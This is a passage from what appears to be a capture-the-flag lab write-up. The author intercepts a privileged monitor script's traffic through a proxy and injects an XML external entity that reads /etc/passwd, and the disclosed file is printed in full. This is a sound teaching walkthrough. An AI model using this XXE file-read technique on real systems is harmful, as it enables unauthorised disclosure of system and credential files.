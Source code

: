 I'll grab a basic XXE payload (for example from
[here](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#read-file))
and update the response:

![](/img/image-20240125154846431.png)

On clicking "Forward", the file shows up in the terminal:


    jack@clicker:~$ sudo http_proxy=http://10.10.14.6:8080 /opt/monitor.sh 
    <?xml version="1.0"?>
    <!DOCTYPE replace [
    <!ENTITY ent SYSTEM "/etc/passwd">
    ]>
    <file>root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    _apt:x:100:65534::/nonexistent:/usr/sbin/nologin
    systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
    systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
    messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
    systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
    pollinate:x:105:1::/var/cache/pollinate:/bin/false
    sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
    syslog:x:107:113::/home/syslog:/usr/sbin/nologin
    uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
    tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
    tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
    landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
    fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
    usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
    jack:x:1000:1000:jack:/home/jack:/bin/bash